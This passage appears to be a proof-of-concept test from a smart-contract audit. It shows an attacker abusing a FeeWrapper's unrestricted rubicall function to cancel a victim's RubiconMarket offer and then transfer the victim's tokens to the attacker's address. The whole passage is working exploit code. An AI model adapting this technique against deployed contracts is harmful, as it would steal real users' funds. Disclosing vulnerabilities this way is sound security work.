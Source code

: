 ```
    const victimOfferId = 3;

    let attackerBalance = Number(await testCoin.balanceOf(attacker.address))
    console.log("Before attack attacker has no tokens. Attacker's balance = ", attackerBalance)


    let ABI = [
      "function cancel(uint256 id)",
      "function transfer(address to, uint256 amount)"
    ];
    let iface = new ethers.utils.Interface(ABI);

    // The attaacker calls `cancel` through the `FeeWrapper`.
    // This steals the victim's tokens and puts them into the FeeWrapper
    let cancelFunc = iface.getFunction("cancel")
    let cancelFuncSig = iface.getSighash(cancelFunc)
    let cancelFuncParams = iface._encodeParams(cancelFunc.inputs, [victimOfferId])
    await feeWrapper.rubicall(
      {
        selector: cancelFuncSig,
        args: cancelFuncParams,
        target: rubiconMarket.address,
        feeParams: {
          feeToken: testCoin.address,
          totalAmount: parseUnits("0"),
          feeAmount: parseUnits("0"),
          feeTo: testCoin.address
        }
      }
    )

    // The attacker calls `transfer` to take the victim's tokens from the FeeWrapper, to the attacker account
    let feeWrapperBalance = await testCoin.balanceOf(feeWrapper.address)
    let transferFunc = iface.getFunction("transfer")
    let transferFuncSig = iface.getSighash(transferFunc)
    let transferFuncParams = iface._encodeParams(transferFunc.inputs, [attacker.address, feeWrapperBalance])
    await feeWrapper.rubicall(
      {
        selector: transferFuncSig,
        args: transferFuncParams,
        target: testCoin.address,
        feeParams: {
          feeToken: testCoin.address,
          totalAmount: 0,
          feeAmount: 0,
          feeTo: testCoin.address
        }
      }
    )

    attackerBalance = Number(await testCoin.balanceOf(attacker.address))
    console.log("After attack, attacker has all of the victims tokens. Attacker's balance = ", attackerBalance)
    victimBalance = Number(await testCoin.balanceOf(victim.address))
    console.log("The victim is left with nothing. Victim's balance = ", victimBalance)

    // Assert that we really stole all victim's tokens
    expect(attackerBalance).to.be.gt(0);
    expect(victimBalance).to.equal(0);
  })
});
```